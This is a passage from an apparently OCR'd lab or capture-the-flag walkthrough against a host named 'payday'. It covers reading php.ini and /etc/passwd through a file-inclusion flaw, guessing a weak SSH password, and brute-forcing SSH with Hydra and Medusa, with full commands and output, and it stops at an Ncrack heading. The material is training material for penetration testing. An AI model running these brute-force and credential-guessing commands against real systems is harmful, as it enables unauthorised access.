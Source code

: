 ```bash

;;;;;;;;;;;
; WARNING ;
;;;;;;;;;;;
; This is the default settings file for new PHP installations.
; By default, PHP installs itself with a configuration suitable for
; development purposes, and *NOT* for production purposes.
; For several security-oriented considerations that should be taken
; before going online with your site, please consult php.ini-recommended
; and http://php.net/manual/en/security.php.


;;;;;;;;;;;;;;;;;;;
; About php.ini   ;
;;;;;;;;;;;;;;;;;;;

...
Now we can see that allow_url_include is disabled, not allowing us to perform RFI attacks. From the retrieved passwd file, we will note the following user:

patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
SSH via Guessing
We can guess the Patrick’s password to be patrick and simply SSH into the machine (alternatively the auxiliary metasploit module use auxiliary/scanner/ssh/ssh_login or Hydra can be used to brute-force the SSH authentication).

kali@kali:~$ ssh patrick@192.168.120.85
The authenticity of host '192.168.120.85 (192.168.120.85)' can't be established.
RSA key fingerprint is SHA256:4cNPcDOXrXdUvuqlTmFzow0HNSvJ1pXoNPKTZViNTYA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.120.85' (RSA) to the list of known hosts.
patrick@192.168.120.85's password: 
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
patrick@payday:~$ id
uid=1000(patrick) gid=1000(patrick) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),115(lpadmin),1000(patrick)
patrick@payday:~$
kali@kali:~$ echo patrick > users.txt
SSH Password Bruteforce Using Hydra
kali@kali:~$ hydra -L users.txt -P users.txt -e nsr -q ssh://192.168.120.85 -t 4 -w 5 -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-25 09:00:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking ssh://192.168.120.85:22/
[22][ssh] host: 192.168.120.85   login: patrick   password: patrick
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-03-25 09:00:40
kali@kali:~$
SSH Password Bruteforce Using Medusa
kali@kali:~$ medusa -h 192.168.120.85 -U users.txt -P users.txt -M ssh -e ns -f -g 5 -r 0 -b -t 2 -v 4
ACCOUNT FOUND: [ssh] Host: 192.168.120.85 User: patrick Password: patrick [SUCCESS]
kali@kali:~$
SSH Password Bruteforce Using Ncrack
```